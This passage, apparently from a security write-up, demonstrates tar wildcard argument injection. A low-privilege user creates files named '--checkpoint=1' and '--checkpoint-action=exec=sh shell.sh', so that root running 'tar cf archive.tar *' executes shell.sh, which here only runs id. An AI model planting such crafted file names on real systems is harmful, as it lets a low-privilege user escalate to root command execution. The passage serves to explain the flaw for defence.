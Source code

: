 ```none
[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
-rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
-rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
-rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
-rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
-rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
-rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
-rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
-rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh
```

Now, for example, root user wants to create archive of all files in current directory.

```none
[root@defensecode public]# tar cf archive.tar *
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command execution under root privileges. Once again, there are few files created by user 'leon'.

```none
-rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 'tar' program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.
```

```none
[root@defensecode public]# cat shell.sh
/usr/bin/id
```

So, with this tar argument pollution, we can basically execute arbitrary commands with privileges of the user that runs tar. As demonstrated on the 'root' account above.
